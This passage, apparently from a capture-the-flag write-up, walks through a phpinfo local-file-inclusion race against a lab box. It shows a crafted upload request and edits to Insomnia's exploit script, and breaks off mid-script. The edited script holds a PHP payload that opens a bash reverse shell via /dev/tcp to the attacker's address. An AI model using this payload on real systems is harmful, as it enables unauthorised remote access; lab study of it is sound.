 ```

POST /info.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ehjpe8sp040ma068aen884obr7
Upgrade-Insecure-Requests: 1
Content-Length: 194
Content-Type: multipart/form-data; boundary=---------------------------7db268605ae
-----------------------------7db268605ae
Content-Disposition: form-data; name="dummyname"; filename="test.txt" Content-Type: text/plainSecurity
Test
-----------------------------7db268605ae

```

I changed `GET` to `POST`, added the `Content-Type` header, and the POST body.

The resulting page include this:

![image-20200411073056237](https://0xdfimages.gitlab.io/img/image-20200411073056237.png)

That include the filename where this file is stored!

That file only exists for a fraction of a second, but sometimes I can win the race and visit the page before it goes away. Insomnia puts a lot of padding into the HTTP headers to increasing the processing time and therefore the chances that attacker can win the race.

### Script Modifications

Insomnia provides [a Python script](https://www.insomniasec.com/downloads/publications/phpinfolfi.py) that will exploit this. I’ll download it, but it requires someediting to get it to work in this case.

First, I’ll collect some variables I’ll need at the top:

```

local_ip = "10.10.14.24"
local_port = 443
phpsessid = "ehjpe8sp040ma068aen884obr7"

```

The `PHPSESSID` will need to point to a valid session. Were I re-writing this from scratch, I’d have the script just log in and get a session id that way, but there’s too much going on here I don’t want to mess with now.

Now, I’ll change a bunch in the `setup` function at the top:

```

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
```